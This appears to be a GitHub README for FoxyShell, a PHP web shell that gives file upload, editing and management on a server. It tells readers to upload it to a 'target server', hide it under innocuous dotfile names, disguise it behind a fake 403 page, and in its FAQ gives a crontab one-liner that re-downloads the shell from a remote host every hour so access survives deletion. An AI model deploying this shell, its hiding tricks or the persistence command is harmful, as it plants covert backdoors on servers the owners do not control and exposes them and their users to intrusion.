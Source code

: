 # FoxyShell – Pure PHP Web Shell

**FoxyShell** is a Pure Shell with, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Copy File/Folder**      | Can copy files and folders very simply.                                      |
| **Bulk Copy**       | Can copy files and folders in bulk very easily, thanks to PHP                             |
| **Stealth**         | Can be hidden (e.g., rename to .sec.php), e.g. `foxyshell.php` → `.sec.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden`, The text color will change to orange when selected. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```, ```popen```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxypure.php``` to your target server, or hide it (e.g. ```.log.php```).  
---

## Installation

1. **Upload** the single file ```foxypure.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxypure.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **ETC**

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec```, ```popen``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell works using pure PHP, thanks to PHP, this Shell will still work even if EXEC has been disabled, no CMD/Command feature – but the file manager, upload, rename, etc., still work.

**Q**: How do I create folders that start with a dot?  
**A**: Just Click ```New folder```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?  
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change ```name.php``` and ```username``` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-Pure-PHP/refs/heads/main/foxypure.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
